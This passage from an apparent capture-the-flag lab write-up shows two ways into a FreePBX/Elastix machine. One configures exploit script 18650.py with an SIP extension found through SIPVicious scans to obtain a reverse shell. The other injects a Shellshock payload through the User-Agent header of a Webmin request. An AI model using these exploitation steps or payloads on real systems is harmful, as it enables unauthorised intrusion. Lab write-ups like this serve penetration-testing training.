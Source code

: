 ### Method 3 - php/webapps/18650.py
As discovered in the initial enumeration phase we have another exploit (18650.py) that is elegible for a successul exploitation.  
In the variable section we can notice that we are required to set an "extension" variable.  
```
rhost="10.10.10.7"
lhost="10.10.14.18"
lport=443
extension="1000"
```
Running this exploit with extension value of 1000 does not work, so we need to enumerate SIP extensions using SIPVicious.  
SIPVicious suite is a set of tools that can be used to audit SIP based VoIP systems. This suite has five tools:  
svmap, svwar, svcrack, svreport, svcrash.  
We can try to run svmap to enumerate SIP service:
```
[root@kali exploits ]$ svmap 10.10.10.7                    
+-----------------+---------------------+-------------+
| SIP Device      | User Agent          | Fingerprint |
+=================+=====================+=============+
| 10.10.10.7:5060 | FPBX-2.8.1(1.8.7.0) | disabled    |
+-----------------+---------------------+-------------+
```
using svwar we can enaumerate plugins. Let's use chunks of 50 plugins to reduce the workload
```
[root@kali exploits ]$ svwar -mINVITE -e200-250 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```
We can see the valid extension 233. So now we can use this extension id inside our exploit.
```
rhost="10.10.10.7"
lhost="10.10.14.18"
lport=443
extension="233"
```
Now, we can setup a netcat listener on port 443 and get a reverse shell.

### Method 4 - Shellshock
as we can see from the initial nmap scan, a service called webmin is running on port 10000.  
Because webmin is using lots of .cgi files we can try to shellshock this service and see if we can get a shell.  
With burp, we can try to intercept the login page and change the user-agent as follow:  
```
GET / HTTP/1.1
Host: 10.10.10.7:10000
Cookie: elastixSession=3oqenhc7bvtjcid4iuqpag7341; PHPSESSID=3bb02vcbjco3ntj9odbumor1o4; ARI=7fb5h6ukggramuhober09osbe4; testing=1
User-Agent: () { :; };/bin/echo hello
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.7:10000/
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```